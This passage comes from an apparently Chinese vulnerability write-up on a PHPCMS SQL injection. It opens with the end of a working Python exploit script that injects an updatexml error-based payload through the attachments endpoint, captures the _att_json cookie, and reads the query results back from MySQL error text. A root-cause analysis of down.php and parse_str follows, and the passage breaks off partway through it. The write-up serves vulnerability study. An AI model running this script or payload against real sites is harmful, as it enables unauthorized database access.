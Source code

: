 ```
   payload = '%*27 and updatexml(1,concat(1,(user())),1)%23&modelid=1&catid=1&m=1&f=Tao'
   url_two = url + r"/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id={}".format(requests.utils.quote(payload))# 执行SQL语句，此处可修改
   step2 = requests.post(url_two, data={'userid_flash': userid_flash})
   for cookie in step2.cookies:
       if '_att_json' in cookie.name:
           att_json = cookie.value

   # step3
   url_three = url + '/index.php?m=content&c=down&a_k={}'.format(att_json)
   step3 = requests.get(url_three)
   res = re.findall(r"MySQL Error : </b>XPATH syntax error: '(.*?)'",step3.text)
   return res

if __name__ == '__main__':
   url = sys.argv[1]
   result_sql = WAP_SQL(url)
   print(result_sql)
```

执行效果如下：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5saqEsibRQSOtUIAwplCOjottQribAluz5Ud2am9gm4e7JNund0v1umzXqg/640?wx_fmt=png)

脚本在对 Stpe2 那里进行了与手工不一样的处理，原因就是按照手工的方法进行编写的脚本会报错，具体是什么问题以及原因看文尾的分析。> 值得一看！！！

漏洞复现
----

为了更好的理解这个漏洞产生的原因，我们采取的方式是从后往前分析。

根据 step3 请求的 URL 地址，可以定位到`phpcms\modules\content\down.php`文件`init`函数：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5safxVYYnDe08e7x9YUwB0ATezbIjy7Ce1hHRjGcOYU8MoRFPL9WotEicA/640?wx_fmt=png)

上面代码通过 GET 获取到了`$a_k`的值, 然后将`$a_k`带入`sys_auth`函数进行解密（`DECODE`）, 至于是如何加密的，我们无需关心，但是我们要知道的是`$a_k`的值是从拿来的，也就是 Step2 构造的语句是哪里进行加密处理的，还有就是加密用的 key。

执行到 17 行，此时`$a_k={"aid":1,"src":"&id=%27 and updatexml(1,concat(1,(user())),1)#&m=1&modelid=1&catid=1&f=Tao","filename":""}`，这里还需要注意`parse_str`这个函数

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5saRYIicdZKteu6icyaxiaurS7jg7GiautlG3nhicFkza77Cl4FON0v9gBBElA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5saB8jkyd12etm3oOztK0zqYagDicAcrJZoWzWW7aUF7CzPu53ZWbl2r5Q/640?wx_fmt=png)

通过官方给的例子可知，`parse_str`会将传入的值根据`&`进行分割。然后解析注册变量。并且会对内容进行 URL 解码。

为了更好的理解上面这段话，看下图：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5sapNoOjDsfpia3A8We3yGKDwhkBj65GgnSiaViaia2Gv1EFhtKJqoSPjFwyA/640?wx_fmt=png)

由图可知，当执行`parse_str`函数，他会进行以下步骤：

*   1. 根据 & 符解析`$a_k`的值，注册变量
    
